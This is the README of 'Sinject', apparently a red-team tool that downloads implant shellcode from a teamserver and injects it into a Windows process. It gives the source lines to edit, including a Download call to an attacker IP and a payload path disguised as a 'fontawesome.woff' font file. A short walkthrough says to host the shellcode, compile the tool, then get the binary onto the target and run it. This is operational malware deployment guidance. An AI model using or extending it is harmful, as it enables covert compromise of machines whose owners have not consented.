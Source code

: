 # Sinject

# Purpose

Sinject can be used to gain an implant on a windows machine. It works by downloading an implant shellcode from the teamserver and injection it into the local process


# Source Code Changes

In order for this to work you need to change some lines in the source code


1. Line 25 `if (!Download(L"192.168.211.128", 80, &scc)) { return 2; }` - You need to place your team server IP into here or the website ie - notredteam.com. Also make sure the IP matches ie 80 or 443
2. Line 55 `L"/css/fonts/fontawesome.woff",` - You need to change to match the URL you are hosting the ie `192.168.211.128/css/fonts/fontawesome.woff`

# Walkthrough


1. First you need to generate and host shellcode on your teamserver - [here](:/a7c3fb5edc5e4114b1b0b43a667bf084) if you need help
2. Edit the values in the code above and compile
3. Then get the binary onto the target machine and run it